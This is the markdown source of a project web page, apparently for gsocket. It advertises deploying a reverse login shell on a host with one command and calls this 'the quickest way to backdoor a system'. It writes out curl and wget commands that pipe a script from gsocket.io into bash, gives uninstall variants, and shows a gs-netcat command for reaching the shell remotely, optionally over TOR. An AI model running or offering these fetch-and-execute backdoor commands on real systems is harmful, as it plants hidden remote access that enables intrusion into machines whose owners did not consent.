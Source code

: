 ```yaml
---
layout: default
---
```


Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to backdoor a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere in the world:
```shell
$ gs-netcat -s ExampleSecretChagneMe -i
```
(To use gs-netcat you need to [install gsocket]({{site.github.repository_url}}\#installation-anchor))

---

This is just one example of GSOCKET. Visit the [GitHub Page]({{site.github.repository_url}}) for more.  

---
{:refdef: style="text-align: center;"}
Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Login to host from a workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}
---
Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).

